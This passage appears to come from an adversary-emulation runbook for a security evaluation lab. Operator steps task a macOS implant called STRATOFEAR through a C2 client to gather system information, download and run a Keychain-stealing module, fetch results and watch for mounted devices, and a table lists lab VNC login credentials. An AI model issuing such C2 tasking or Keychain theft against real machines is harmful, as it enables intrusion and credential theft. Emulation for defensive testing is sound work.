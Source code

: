     ```
* In Script Editor, click the Play ▶️ button to run the script. In the
Finder terminal to choose a folder, pick Applications
* Open Safari and browse to <https://www.jetbrains.com/idea/download/?section=mac>
to download IntelliJ. In the .dmg dropdown, select ".dmg (Apple Silicon)"
* Follow the instructions to install IntelliJ
* Once installation has completed, open IntelliJ


### :biohazard: Procedures

* Task STRATOFEAR to collect system information:

    ```bash
    ./evalsC2client.py --set-task gidle '{"id": "0x07"}'
    ```

* :camera: Screenshot the collected system information.

* Task STRATOFEAR to download and execute the Keychain module:

    ```bash
    ./evalsC2client.py --set-task gidle '{"id": "0x62", "args": "libmodule_keychain.dylib"}'
    ```

* Task STRATOFEAR to retrieve the module execution results:

    ```bash
    ./evalsC2client.py --set-task gidle '{"id": "0x64"}'
    ```

* :camera: Screenshot the C2 server output of the successful file download.

* Task STRATOFEAR to monitor for when a device is mounted to the system:

    ```bash
    ./evalsC2client.py --set-task gidle '{"id": "0x47"}'
    ```

> :fast_forward: Emulate the following legitimate user activity:
>
> * :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate a
> VNC session to the macOS victim workstation `hogshead (10.55.4.50)` as
> `encryptpotter.net\ranrok` or use the existing VNC session if one is already open.
>
>    | Hostname | Username | Password |
>    | -------- | -------- | -------- |
>    | hogshead.encryptpotter.net | encryptpotter.net\ranrok | Ladylike-Laugh |
>
> * Open Safari and navigate to <https://slack.com/downloads/mac>
>
> * Download and install Slack on the host

🛑 END OF SCENARIO

---
